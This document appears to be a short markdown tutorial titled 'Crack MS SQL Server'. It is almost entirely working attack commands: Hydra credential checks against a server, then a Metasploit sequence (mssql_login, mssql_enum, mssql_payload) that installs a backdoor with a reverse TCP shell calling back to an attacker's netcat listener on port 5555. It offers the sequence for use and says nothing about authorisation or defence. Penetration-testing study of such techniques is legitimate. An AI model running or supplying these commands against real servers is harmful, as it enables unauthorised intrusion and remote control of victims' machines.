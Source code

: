 ## Crack MS SQL Server

The main idea is shown below:

- First, obtain a username/password pair of the target, a MS SQL Server;

- Second, utilize Hydra to verify the username/password pair;

- Third, launch Metasploit-Framework to exploit the MS SQL Server through the following sequence:

* auxiliary/scanner/mssql/mssql_login

* auxiliary/admin/mssql/mssql_enum

* exploit/windows/mssql/mssql_payload

1) Obtain an username/password pair and would like to verify the effectiveness the pair by applying Hydra:

#hydra -l admin -p test123 mssql://172.16.33.33

2) Verify the username/password pair by Metasploit Framework:

#msfconsole

msf5 > use auxiliary/scanner/mssql/mssql_login

msf5 auxiliary(scanner/mssql/mssql_login) > set rhosts xxx.xxx.xxx.xxx

msf5 auxiliary(scanner/mssql/mssql_login) > set username xxx

msf5 auxiliary(scanner/mssql/mssql_login) > set password xxx

msf5 auxiliary(scanner/mssql/mssql_login) > run

3) Enumerate the other users:

msf5 auxiliary(scanner/mssql/mssql_login) > use auxiliary/admin/mssql/mssql_enum

msf5 auxiliary(admin/mssql/mssql_enum) > set rhosts xxx.xxx.xxx.xxx

msf5 auxiliary(admin/mssql/mssql_enum) > set username xxx

msf5 auxiliary(admin/mssql/mssql_enum) > set password xxx

msf5 auxiliary(admin/mssql/mssql_enum) > run

4) Install a Meterpreter backdoor:

msf5 auxiliary(admin/mssql/mssql_enum) > use exploit/windows/mssql/mssql_payload

msf5 exploit(windows/mssql/mssql_payload) > set rhosts xxx.xxx.xxx.xxx

msf5 exploit(windows/mssql/mssql_payload) > set username xxx

msf5 exploit(windows/mssql/mssql_payload) > set password xxx

msf5 exploit(windows/mssql/mssql_payload) > set SRVPORT 53

msf5 exploit(windows/mssql/mssql_payload) > set payload windows/x64/shell_reverse_tcp

msf5 exploit(windows/mssql/mssql_payload) > set lhost xxx.xxx.xxx.xxx

msf5 exploit(windows/mssql/mssql_payload) > set lport 5555

#nc -k -l -p 5555

msf5 exploit(windows/mssql/mssql_payload) > exploit

5) Happy hunting!


